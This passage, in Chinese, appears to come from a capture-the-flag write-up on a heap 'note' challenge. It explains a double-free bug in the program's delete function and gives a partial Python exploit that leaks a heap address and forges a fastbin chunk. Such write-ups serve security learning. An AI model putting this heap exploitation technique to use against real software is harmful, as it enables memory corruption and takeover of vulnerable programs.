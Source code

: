 ```c
        list->notes[n].inuse = 0;
        list->notes[n].size = 0;
        free(list->notes[n].content);
        puts("Done.");
    }
    else
    {
        puts("No notes yet.");
    }
}
```

删除note时，只需要指定note序号，然而再删除note时，并没有检查对应的note[n]的inuse标志是否为1，而且删除note后并未清空note结构中的内容指针，因此可以对任意空闲的note做多次free

此处存在double free漏洞

### 打印note列表 - list_note()

```c
void list_note()
{
    if (list->inuse > 0)
    {
        for (int i = 0; i < list->total; ++i)
            if (list->notes[i].inuse == 1)
            {
                printf("%d. %s\n", i, list->notes[i].content);
            }
    }
    else
    {
        puts("You need to create some new notes first.");
    }
}
```

打印note功能可以列出所有note的内容

### 方法一：在堆上伪造fastchunk

```python
add_note('A'*0x30)#0
add_note('B'*0x30)#1
add_note('C'*0x30)#2
add_note('D'*0x30)#3
add_note('E'*0x41)#3
raw_input("step1 success")
delete_note(0)
delete_note(1)
add_note('E'*0x30)#0
raw_input("step2 success")
delete_note(2)
delete_note(1)
list_note()
raw_input("step3 success")
s.recvuntil('0. ')
heap = u64(s.recv(4)+'\x00'*4) - 0x18a0
print 'heap:',hex(heap)

edit_note(0,p64(heap+0x80)+'F'*0x28)
add_note('G'*0x30)
add_note('H'*0x30)
raw_input("step4 success")
#add_note('E'*0x10)
```